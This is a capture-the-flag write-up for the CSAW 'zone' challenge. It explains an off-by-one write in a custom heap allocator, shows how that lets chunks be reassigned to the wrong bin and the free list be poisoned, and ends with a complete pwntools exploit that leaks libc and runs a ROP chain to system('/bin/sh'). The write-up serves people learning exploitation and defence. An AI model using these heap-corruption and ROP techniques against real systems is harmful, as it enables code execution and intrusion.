




### zone writeup

*Note: someone else solved this during the competition as well for points, just submitting my writeup for posterity*

`zone` is a custom heap implementation.  Underneath the hood, the binary uses `mmap()/munmap()` for allocating memory from the OS and seems to have the following heap structures:

#### structures

```c
struct heap {
    struct bin *64_bit_bin;
    struct bin *128_bit_bin;
    struct bin *256_bit_bin;
    struct bin *512_bit_bin;
}
```

```c
struct bin {
    uint64_t size;
    void *next_free_chunk;
    void *mem_page;
    uint64_t unk;
}
```

```c
struct chunk_header {
    uint64_t size;
    struct chunk *next;
}
```

During startup, bins of size 64, 128, 256, and 512 bytes are created.  Each bin gets a single page of memory (0x1000 bytes) and creates an entire page of 'free' chunks contiguously throughout the allocation.  Users can allocate, delete, write and print memory chunks.

#### bug
There is an off-by-one error that allows users to write a single byte past the end of any given chunk.  By doing this, users can overwrite the least-significant byte of the `size` field of the next `chunk_header`.  Here is an example with an input of 64 'A's followed by 0x80:



and after the overwrite (changes in orange):



The memory deallocator references the `size` field of a given chunk when it returns it to its proper bin.  This means that by overwriting the `size` field of a chunk, we can return it to the wrong bin.  Why does this matter?  Because of this loop:



The functionality of writing to a block limits the input by the *size of the bin it came from*, not the size field of the chunk header.  Or put another way:

* overwrite the `size` field of 64 byte block (to say, 128)
* free it and return it to the 128 byte bin
* allocate a new 128 byte chunk

We will get the fake 128 byte chunk instead of a real 128 byte chunk.  And the code that allows us to write to memory will gladly allow us to write past the true 64 byte boundary of the chunk into the next chunk, allowing us to completely overwrite the next chunk's header and contents.  But we only care about the header.

#### overwriting the header
The chunk header contains a `size` field and a pointer to the next free chunk *if it is free*.  When it is allocated, the following code is ran:

```c
next_free_chunk = current_bin->next_free_chunk;
if (next_free_chunk) {
    if (next_free_chunk->next) {
        // update the bin header to the next free chunk in memory
        current_bin->next_free_chunk = next_free_chunk->next;
    }
    else {
        // we're out of free chunks!
        current_bin->next_free_chunk = 0;
    }
    next_free_chunk->next = 0;
}
```

By analyzing this logic, we can then do the following:

* use the bug described above to overwrite the `next` field of the next free chunk (lets call the value we overwrite `X`)
* allocate the next free chunk, which will update the bin header to *think* that `X` is the address of the next free chunk
* allocate another chunk, which will return us a pointer to `X`

`X` can be anything!  Remember when the program started up and spit out the address of the 'environment'?  That was a stack address, that happens to always sit 0x88 bytes from the return address on the stack after `main()`.  Oh, and that address also happens to be an address in `__libc_start_main`, so if we set `X` to `'evironment address' + 0x88 - 0x10`, and print the chunk, we get a nice libc address leak to ROP to `system()`:



The rest is pretty trivial.

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *
import os

exe = context.binary = ELF('./zone')
libc = ELF('./libc.so.6')

gdbscript = """
set sysroot /
""".format(**locals())

def start(argv=[], *a, **kw):
    os.environ['LD_LIBRARY_PATH'] = '.'
    if args.GDB:
        io = gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        io = remote('pwn.chal.csaw.io', 5223)
    else:
        io = process([exe.path] + argv, *a, **kw)
    return io

# connect
io = start()
while True:
    line = io.readline()
    if 'Environment setup' in line:
        break

env_string = line.split(': ')[1]
env_ptr = int(env_string, 16)
log.info('custom heap struct is at: {}'.format(hex(env_ptr)))
ret_addr = env_ptr + 0x88
log.info('main() return addr is at: {}'.format(hex(ret_addr)))

def menu():
    io.recvuntil('5) Exit\n')

def allocate(size):
    io.sendline('1')
    io.sendline(str(size))
    menu()

def delete():
    io.sendline('2')
    retval = int(io.readline().split()[2])
    menu()
    return retval

def write(content):
    io.sendline('3')
    io.sendline(content)
    menu()

def print_block():
    io.sendline('4')
    retval = io.readline()
    menu()
    return retval

def get_leak():
    io.sendline('4')
    l = io.recv(6)
    menu()
    return l

def exit():
    io.sendline('5')

menu()
allocate(64)
write('A'*64 + '\x80')
allocate(64)
delete()
allocate(128)
write('B'*64 + '\x00\x02\x00\x00\x00\x00\x00\x00' + p64(ret_addr-0x10))
allocate(64)
allocate(64)

leaked_addr = u64(get_leak().ljust(8, '\x00'))
# leaked addr is 0xf0 bytes into __libc_start_main
libc_base = leaked_addr - 0xf0 - libc.symbols['__libc_start_main']
system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + 0x18cd17 # is there a better way to do this?
pop_rdi_ret = 0x404653
log.info('leaked addr: {}'.format(hex(leaked_addr)))
log.info('libc_base is at: {}'.format(hex(libc_base)))
log.info('system is at: {}'.format(hex(system_addr)))
log.info('/bin/sh is at: {}'.format(hex(binsh_addr)))

payload = flat(
            pop_rdi_ret,
            binsh_addr,
            system_addr
        )
write(payload)
exit()

io.interactive()
```
